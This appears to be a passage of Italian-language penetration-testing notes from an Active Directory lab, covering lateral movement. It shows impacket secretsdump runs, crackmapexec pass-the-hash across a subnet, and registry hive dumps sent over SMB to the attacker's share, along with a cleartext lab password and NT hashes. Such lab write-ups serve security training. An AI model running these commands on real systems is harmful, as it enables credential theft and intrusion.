 ### **Lateral Movement**
Prima di saltare da una macchina all'altra è essenziale ottenere tutti i "Secrets" della macchina pwnata.
```bash
impacket-secretsdump NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22
```
![[Pasted image 20230906162707.png]]
Per quanto riguarda il SAM i risultato sono mostrati cosi:
```
<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```
Questo valore sulle LM hash significa vuoto ==aad3b435b51404eeaad3b435b51404ee==

*Pass the Hash*
Spesso nel creare i network gli amministratori copiano le macchine, quindi le password vengono riutilizzate.
Per testare ciò si può usare crackmapexec
```bash
crackmapexec smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth
```
![[Pasted image 20230906164347.png]]
Quando una macchina viene promossa a DC, la password dell'amministratore locale diventa la password del domain administrator
```bash
crackmapexec smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4'
```
![[Pasted image 20230906164901.png]]
*LSA secrets and Cached domain logon information*
dumpiamo HKLM\\SECURITY e HKLM\\SYSTEM
```bash
impacket-smbserver -smb2support share .
impacket-reg NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.6\share'
impacket-reg NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SECURITY' -o '\\192.168.56.6\share'
```
![[Pasted image 20230906165710.png]]
E dumpa i "secrets"
```bash
impacket-secretsdump -security SECURITY.save -system SYSTEM.save LOCAL
```
![[Pasted image 20230906170139.png]]
Ci da molte informazioni come:
- Cached domain credentials (DCC2 hashcat mode 2100) (Quasi impossibili da craccare)
- Machine account : example here : $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:22d57aa0196b9e885130414dc88d1a95
- Service account credentials
- DPAPI key e password per l'autologon
Ora si potrebbero effettuare più mosse, come lanciare bloodhound con il machine account trovato, usare le credenziali del service account o provare a craccare le hash DCC2
*LSASS*
Un altro importante contenitore di "Secrets" è il processo lsass.exe
